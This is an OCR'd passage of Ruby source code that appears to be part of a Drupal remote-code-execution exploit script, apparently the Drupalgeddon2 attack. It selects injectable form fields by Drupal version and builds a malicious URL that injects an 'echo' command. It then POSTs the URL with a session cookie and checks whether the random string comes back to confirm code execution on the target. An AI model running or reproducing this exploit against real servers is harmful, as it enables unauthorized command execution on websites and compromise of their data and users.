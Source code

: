 ```ruby
puts "-"*80


# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -


# Values in gen_evil_url for Drupal v8.x
elementsv8 = [
  "mail",
  "timezone",
]
# Values in gen_evil_url for Drupal v7.x
elementsv7 = [
  "name",
]

elements = $drupalverion.start_with?("8") ? elementsv8 : elementsv7 # IN our case, it is Drupal v7.x

elements.each do|e|
  $element = e

  # Make a request, testing code execution
  puts action("Testing: Code Execution   (Method: #{$element})")

  # Generate a random string to see if we can echo it
  random = (0...8).map { (65 + rand(26)).chr }.join
  url, payload = gen_evil_url("echo #{random}", e)  # Writes a string on the generated evil URL in the website.

  response = http_request(url, "post", payload, $session_cookie)
  if (response.code == "200" or response.code == "500") and not response.body.empty?
    result = clean_result(response.body)
    if not result.empty?
      puts success("Result : #{result}")

	# This means that the tested random string was actually sent into the webserver and was successfully extracted it.
      if response.body.match(/#{random}/)
        puts success("Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!")
        break

      else
        puts warning("WARNING: Target MIGHT be exploitable [4]...   Detected output, but didn't MATCH expected result")
      end

    else
      puts warning("WARNING: Target MIGHT be exploitable [3] (HTTP Response: #{response.code})...   Didn't detect any INJECTED output (disabled PHP function?)")
    end

    puts warning("WARNING: Target MIGHT be exploitable [5]...   Blind attack?") if response.code == "500"

    puts verbose("response.body: #{response.body}") if $verbose
    puts verbose("clean_result: #{result}") if not result.empty? and $verbose

  elsif response.body.empty?
    puts error("Target is NOT exploitable [2] (HTTP Response: #{response.code})...   Got an empty response")
    exit
```
